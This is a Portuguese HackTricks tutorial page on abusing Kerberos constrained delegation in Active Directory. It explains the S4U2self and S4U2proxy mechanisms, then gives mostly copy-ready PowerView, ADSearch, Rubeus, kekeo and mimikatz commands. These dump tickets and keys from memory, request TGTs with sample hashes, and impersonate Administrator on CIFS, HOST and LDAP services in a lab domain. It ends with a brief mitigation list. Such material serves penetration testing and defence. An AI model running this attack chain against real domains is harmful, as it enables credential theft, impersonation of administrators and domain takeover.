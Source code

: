 # Delegação Restrita

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Delegação Restrita

Usando isso, um administrador de domínio pode **permitir** que um computador **se passe por um usuário ou computador** contra um **serviço** de uma máquina.

* **Serviço para Usuário próprio (**_**S4U2self**_**):** Se uma **conta de serviço** tem um valor _userAccountControl_ contendo [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) (T2A4D), então ela pode obter um TGS para si mesma (o serviço) em nome de qualquer outro usuário.
* **Serviço para Usuário para Proxy(**_**S4U2proxy**_**):** Uma **conta de serviço** pode obter um TGS em nome de qualquer usuário para o serviço definido em **msDS-AllowedToDelegateTo.** Para fazer isso, primeiro precisa de um TGS desse usuário para si mesma, mas pode usar S4U2self para obter esse TGS antes de solicitar o outro.

**Nota**: Se um usuário está marcado como '_Conta é sensível e não pode ser delegada_' no AD, você **não poderá se passar** por eles.

Isso significa que, se você **comprometer o hash do serviço**, pode **se passar por usuários** e obter **acesso** em nome deles ao **serviço configurado** (possível **privesc**).

Além disso, você **não terá acesso apenas ao serviço que o usuário pode se passar, mas também a qualquer serviço**, porque o SPN (o nome do serviço solicitado) não está sendo verificado, apenas os privilégios. Portanto, se você tem acesso ao serviço **CIFS**, também pode ter acesso ao serviço **HOST** usando a flag `/altservice` no Rubeus.

Também, o **acesso ao serviço LDAP no DC** é o que é necessário para explorar um **DCSync**.

{% code title="Enumerar" %}
```bash
# Powerview
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

#ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
```
{% endcode %}

{% code title="Obter TGT" %}
```bash
# The first step is to get a TGT of the service that can impersonate others
## If you are SYSTEM in the server, you might take it from memory
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# If you are SYSTEM, you might get the AES key or the RC4 hash from memory and request one
## Get AES/RC4 with mimikatz
mimikatz sekurlsa::ekeys

## Request with aes
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap

# Request with RC4
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
```
{% endcode %}

{% hint style="warning" %}
Existem **outras maneiras de obter um ticket TGT** ou as chaves **RC4** ou **AES256** sem ser SYSTEM no computador, como o Printer Bug, delegação sem restrições, retransmissão NTLM e abuso do Serviço de Certificados do Active Directory.

**Apenas possuindo esse ticket TGT (ou seu hash), você pode realizar esse ataque sem comprometer o computador inteiro.**
{% endhint %}

{% code title="Usando Rubeus" %}
```bash
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator

#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS

#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST

# Get S4U TGS + Service impersonated ticket in 1 cmd (instead of 2)
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /user:dcorp-adminsrv$ /ticket:TGT_websvc.kirbi /nowrap

#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp.local
```
```markdown
{% endcode %}

{% code title="kekeo + Mimikatz" %}
```
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d

#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL

#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
```
{% endcode %}

### Mitigação

* Desative a delegação do kerberos quando possível
* Limite logins de DA/Admin a serviços específicos
* Defina "Conta é sensível e não pode ser delegada" para contas privilegiadas.

[**Mais informações em ired.team.**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
